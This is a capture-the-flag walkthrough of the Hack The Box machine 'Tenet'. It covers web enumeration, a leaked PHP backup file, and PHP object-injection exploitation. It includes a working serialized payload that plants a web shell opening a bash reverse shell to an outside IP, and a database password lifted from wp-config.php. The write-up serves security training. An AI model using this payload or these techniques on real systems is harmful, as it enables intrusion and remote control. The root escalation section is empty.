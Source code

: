 HTB IP: 10.10.10.223

-------------------------
# Enumeration

Some basic nmap scan show us that this box has 2 opening ports : `22,80` 

Directory enumeration with `gobuster`

`gobuster dir -u http://10.10.10.223 -w <word_list>`

```
/wordpress
/wordpress/wp-content           (Status: 301) [Size: 327] [--> http://10.10.10.223/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 328] [--> http://10.10.10.223/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 325] [--> http://10.10.10.223/wordpress/wp-admin/]
```

Heading to `10.10.10.223/wordpress/` , we realize that the website is fetching css from `tenet.htb` website => We will add that to our virtual host file `etc/hosts` 

Visit `http://tenet.htb/wordpress/` website
We find some interesting post about The Migrations, apparently they are migrating their website, we also found a potential username `neil` with the comment

```
did you remove the sator php file and the backup?? the migration program is
incomplete! why would you do this?!
```

So there is a `sator.php` file and apparently a backup too ?. That could be our lead
After a while fuzzing for the file in `tenet.htb` , I got no luck with it. So I ask some of my fellow hackers on HTB forum, turn out there is another virtual host 
So we try to add `sator.tenet.htb` to our `/etc/hosts` file

Now we go to `http://sator.tenet.htb/sator.php` , and we saw this content
<img width="565" alt="image" src="https://user-images.githubusercontent.com/37280106/113422704-5d82f200-93f7-11eb-8efa-567a4c0e2ccb.png">

So there was a `sator.php` file and it was executed in the background. There was some mentions about back up file too.
Now, backup file used to have the extension `.bak`. So I tried `sator.tenet.htb/sator.php.bak` and it just download the file to my machine

```
// cat sator.php.bak
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }
        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file,
$this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();
```
Now, let's analyze the code:
- It is getting query param `?arepo=` 
- Now it is deserialize the user input

So it just look like normal data processing, but we notice that trust user's input is a dangerous thing !!. In any cases, take user's input without proper sanitization is always a big risk !!.

We might be exploit the insecure object deserialization in code ( In this case, it is PHP Object Injection). [Here](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) is a blog post about it

# Exploitation

Here is a class called DatabaseExport with a `__destruct` function implemented. This function is what we can use to get RCE. The function uses `file_put_contents` to write the variable `data` to the file defined in the variable `user_file`. If we go over to the URI `sator.tenet.htb/users.txt`, we see that the file exists and prints `SUCCESS`

Now, to exploit this, we can do the following:
- We write the class `DatabaseExport` on our local machine, define the `user_file` variable to be our php file, and `data` is our reverse shell payload
- We serialize our payload and pass it to variable `?arepo=`
- The input get passed to `unserialize` function and a new class `DatabaseExport` instance was created with our defined variables
- At the `__destruct` function, our reverse shell get written into root directory of web directory and our defined php file name `user_file` (php-revshell.php) in this case, so if we go to that URL, we will got our reverse shell


RCE Payload:

```
class DatabaseExport {
  public $user_file = 'php-revshell.php';
  public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.71/4444 0>&1\'"); ?>';
  }

print urlencode(serialize(new DatabaseExport));
```

Now we just need to execute this to get reverse shell:
`curl http://sator.tenet.htb/php-revshell.php` 

# Post Exploitation

1. Priviledge Escalation - User

Doing some basic enumeration:
```
sudo -l
```
show us that we can run `/usr/local/bin/enableSSH.sh` this script with root priviledge 

Now, when we are inside a machine that run a web server, we have to check for config file, db file first because data have to be stored somewhere

`cat wp-config.php`
```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

User credentials: `neil: Opera2112`
=> SSH to machine as neil user, grab the `user.txt` flag

2. Priviledge Escalation - Root


